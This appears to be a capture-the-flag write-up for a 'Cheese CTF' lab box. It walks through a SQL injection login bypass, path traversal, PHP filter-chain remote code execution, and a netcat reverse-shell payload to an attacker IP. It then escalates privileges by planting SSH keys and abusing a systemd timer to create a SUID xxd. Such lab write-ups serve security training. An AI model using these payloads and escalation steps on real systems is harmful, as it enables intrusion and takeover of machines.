





# Cheese CTF

Inspired by the great cheese talk of THM!

## Start your VM!

Please allow the machine a minimum of 5-7 minutes to boot. This is essential for the best part of the machine.

Start the VM.

> No answer needed

## Flags

Hack into the machine and get the flags!

What is the user.txt flag?

```
nmap -v -A 10.10.204.70
[Too many ports]

```

```
gobuster dir -u http://10.10.204.70 -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.204.70
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/images               (Status: 301) [Size: 313] [--> http://10.10.204.70/images/]
/server-status        (Status: 403) [Size: 277]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```
Check pages on main page


There is nothing except login page



Let's try to exploit some Injection

`admin' OR 1=1;-- -` - didnt't work for me, but
`admin' || 1=1;-- -` - work fine



Why SQL-injection works?

SQL injections work when malicious data is properly formatted and interpreted by the SQL server as part of the executable code. The effectiveness of these two injections depends on SQL syntax and how they integrate into the original query.

Injection: "admin' || 1=1;-- -"
This injection might work if || is used as an "OR" operator in SQL dialects where it is acceptable for such use. For instance, in Oracle SQL, || is an operator for string concatenation, and its use as a logical "OR" would not be correct.

Injection: "admin' OR 1=1;-- -"
This injection is a classic example of an SQL injection.

Looks like the system filters or escapes input data, which prevents the insertion of operators like OR.

Now we have access to `http://10.10.204.70/secret-script.php?file=supersecretadminpanel.html`

Looks like the application accept PHP filters, so we can try using the convert.base64-encode filter to read the source code of the PHP pages.

`10.10.204.70/secret-script.php?file=../../../../../etc/passwd`



The file parameter in the URL is used to specify the path to the file that the PHP script should open. The string ../../../../../etc/passwd attempts to "escape" from the web server's directory using the sequence ../ (which denotes moving up one level in the directory structure) to reach the root directory of the system and access the etc/passwd file, which contains crucial user data of the operating system.

Let's exploit it

Check https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md

There we have link to way to turn the php://filter into a full RCE - https://github.com/synacktiv/php_filter_chain_generator/blob/main/README.md

Run this script
```
python3 php_exp.py --chain '<?php phpinfo();?>'
[+] The following gadget chain will generate the following code : <?php phpinfo();?> (base64 value: PD9waHAgcGhwaW5mbygpOz8+)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSA_T500.UTF-32|convert.iconv.CP857.ISO-2022-JP-3|convert.iconv.ISO2022JP2.CP775|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM891.CSUNICODE|convert.iconv.ISO8859-14.ISO6937|convert.iconv.BIG-FIVE.UCS-4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSGB2312.UTF-32|convert.iconv.IBM-1161.IBM932|convert.iconv.GB13000.UTF16BE|convert.iconv.864.UTF-32LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L4.UTF32|convert.iconv.CP1250.UCS-2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```
It's work


Let's upgrade this command to one-line PHP reverse shell

```
python3 php_filter_chain_generator.py --chain '<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.214.126 1234 >/tmp/f"); ?>' | grep '^php' > payload.txt
```

Start listener
`nc -lvnp 1234`

And paste payload to url


We have shell


But we don't have permissions to read files im /home directory

Check which files we can edit
```
find /  -type f -writable 2>/dev/null | grep -Ev '^(/proc|/snap|/sys|/dev)'
/home/comte/.ssh/authorized_keys
/etc/systemd/system/exploit.timer
```

To get a shell as the comte user, we can simply add an SSH key to the authorized_keys file.

Generate ssh key
```
ssh-keygen -f id_ed25519 -t ed25519
cat id_ed25519.pub
```

Add id_ed25519.pub to authorized_keys and login via ssh

`ssh -i id_ed25519 comte@10.10.204.70`

Check priveleges 
```
sudo -l
User comte may run the following commands on cheesectf:
    (ALL) NOPASSWD: /bin/systemctl daemon-reload
    (ALL) NOPASSWD: /bin/systemctl restart exploit.timer
    (ALL) NOPASSWD: /bin/systemctl start exploit.timer
    (ALL) NOPASSWD: /bin/systemctl enable exploit.timer
```
Let's check what we have
```
ç
[Unit]
Description=Exploit Timer

[Timer]
OnBootSec=

[Install]
WantedBy=timers.target

cat /etc/systemd/system/exploit.service
[Unit]
Description=Exploit Service

[Service]
Type=oneshot
ExecStart=/bin/bash -c "/bin/cp /usr/bin/xxd /opt/xxd && /bin/chmod +sx /opt/xxd"
```
If we try to reload the configuration and start the exploit.timer as it is, we will see that it fails.
```
sudo /bin/systemctl daemon-reload
comte@cheesectf:~$ sudo /bin/systemctl start exploit.timer
Failed to start exploit.timer: Unit exploit.timer has a bad unit file setting.
See system logs and 'systemctl status exploit.timer' for details.

systemctl status exploit.timer
\u25cf exploit.timer - Exploit Timer
     Loaded: bad-setting (Reason: Unit exploit.timer has a bad unit file settin>
     Active: inactive (dead)
    Trigger: n/a
   Triggers: \u25cf exploit.service

```
This is due to the OnBootSec value not being present in the unit configuration file.

Change to 
```
[Timer]
OnBootSec=5s
```
And repeat

```
systemctl status exploit.timer
\u25cf exploit.timer - Exploit Timer
     Loaded: loaded (/etc/systemd/system/exploit.timer; disabled; vendor preset>
     Active: active (elapsed) since Thu 2024-11-21 06:23:04 UTC; 12s ago
    Trigger: n/a
   Triggers: \u25cf exploit.service
comte@cheesectf:~$ ls -la /opt
total 28
drwxr-xr-x  2 root root  4096 Nov 21 06:23 .
drwxr-xr-x 19 root root  4096 Sep 27  2023 ..
-rwsr-sr-x  1 root root 18712 Nov 21 06:23 xxd
```
On GTFObins we can find, that xxd apply us to write files
Let's try it out
```
comte@cheesectf:~$ echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBhQnMopCMma7F2J21dOdUD87WyE2zG3ngsKrOwpg8fU root@ip-10-10-214-126' | xxd | /opt/xxd -r - /root/.ssh/authorized_keys
```
And login with root
```
root@ip-10-10-214-126:~# ssh -i id_ed25519 root@10.10.204.70
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 21 Nov 2024 06:25:16 AM UTC

  System load:  0.1                Processes:             149
  Usage of /:   31.3% of 18.53GB   Users logged in:       0
  Memory usage: 15%                IPv4 address for ens5: 10.10.204.70
  Swap usage:   0%


 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.

47 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Apr  4 17:21:43 2024
root@cheesectf:~# ls
root.txt  snap
root@cheesectf:~# cat root.txt
```